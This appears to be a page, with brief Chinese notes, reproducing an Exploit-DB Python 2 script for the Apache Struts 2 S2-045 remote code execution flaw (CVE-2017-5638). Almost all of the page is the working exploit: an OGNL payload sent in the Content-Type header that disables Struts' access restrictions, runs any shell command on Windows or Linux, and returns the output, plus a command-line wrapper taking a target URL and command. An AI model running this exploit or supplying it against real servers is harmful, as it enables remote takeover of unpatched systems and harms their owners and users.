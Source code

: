 来源 : [Exploit-DB/Apache Struts 2.3.5 < 2.3.31 / 2.5 < 2.5.10 - Remote Code Execution](https://www.exploit-db.com/exploits/41570/)

python2 下运行，可以使用 2to3 转换

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
 
import urllib2
import httplib
 
def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"
 
    try:
        headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
        request = urllib2.Request(url, headers=headers)
        page = urllib2.urlopen(request).read()
    except httplib.IncompleteRead, e:
        page = e.partial
 
    print(page)
    return page
 
 
if __name__ == '__main__':
    import sys
    if len(sys.argv) != 3:
        print("[*] struts2_S2-045.py <url> <cmd>")
    else:
        print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
        url = sys.argv[1]
        cmd = sys.argv[2]
        print("[*] cmd: %s\n" % cmd)
        exploit(url, cmd)
```
